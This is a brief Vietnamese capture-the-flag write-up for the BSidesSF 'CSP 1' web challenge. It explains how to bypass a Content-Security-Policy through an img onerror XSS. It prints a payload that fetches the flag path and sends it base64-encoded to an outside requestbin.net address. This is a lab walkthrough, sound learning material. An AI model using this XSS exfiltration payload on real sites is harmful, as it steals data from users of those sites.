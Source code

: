 CSP 1
=== 

**Category:** Web

**Author:**  itsc0rg1

**Point:** 101 (74 solves)

### Description
```
CSP challenges are back! Can you bypass the CSP to steal the flag?
(flag path: /csp-one-flag)
```
- Site: `https://csp-1-581db2b1.challenges.bsidessf.net`

### Solution
- Ở thử thách này như tiêu đề của tên challange thì là csp (Content-Security-Policy) vì vậy chúng ta cần bypass csp để trigger xss. Và ở thử thách này không có policy filter trong việc chèn lệnh.
```
content-security-policy: default-src 'self' 'unsafe-inline' 'unsafe-eval'; script-src-elem 'self'; connect-src *
```
- Nếu sài firefox ở chall này thì chúng ta có thể sử dụng thẻ ```<script>alert(1);</script>``` để trigger xss nhưng ở đây mình sài chrome nên mình kiểm tra từng thẻ thì tìm thấy thẻ `img` để trigger xss -> ```<img src='x' onerror=alert(1)>```
- Tiếp theo mình cần fetch đến `/csp-one-flag` sau đó location nội dung của path đó đến requestbin của mình để lấy flag

#### Payload
```
<img src="x" onerror="fetch('/csp-one-flag').then(x=>x.text()).then(x=>location='http://requestbin.net/r/h505vun2?c='+btoa(x))">
```